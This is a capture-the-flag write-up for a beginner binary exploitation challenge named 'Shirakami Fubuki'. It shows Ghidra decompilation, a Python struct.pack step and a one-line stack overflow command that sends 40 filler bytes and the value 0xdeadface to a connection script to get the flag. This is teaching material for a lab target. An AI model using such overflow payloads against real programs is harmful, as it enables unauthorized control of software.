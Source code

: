 # HOW TO SOLVE Binary Exploitation (PWN) SHIRAKAMI FUBUKI

### USE GHIDRA
Breakdown the code using `Ghidra`. Open/Create new project then import `fubuki` file. Analyze it using ghidra automation
> Image Example
![Image Example](images/Screenshot%20from%202023-11-10%2019-13-49.png)

> Your code will look different because I change some variable to make it easy to read

You will notice that the code will print the `cat flag.txt` if we pass the right input. Click on line 25 to see where pointer at and see value for buffer protocol

> Example for the value
![value](images/Screenshot%20from%202023-11-10%2019-23-40.png)

We now have value `0xdeadface` and we just need to make the python code to catch the flag.

### CREATE PYTHON CODE
> Python code example
```python
Python 2.7.18 (default, Nov 21 2022, 21:13:16) 
[GCC 12.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import struct
>>> struct.pack('<I', 0xdeadface)
'\xce\xfa\xad\xde'
>>> exit()
```
We now have a value to pass the buffer

### RUN IT
If you remember when we examine the code, the max buffer is [40]. We can create an shortcut for it. Run with command `python2 -c "print('A'*40 + '\xce\xfa\xad\xde')" | ./connect.sh` and you will rewarded with the flag.
![Result](images/Frame%201.png)
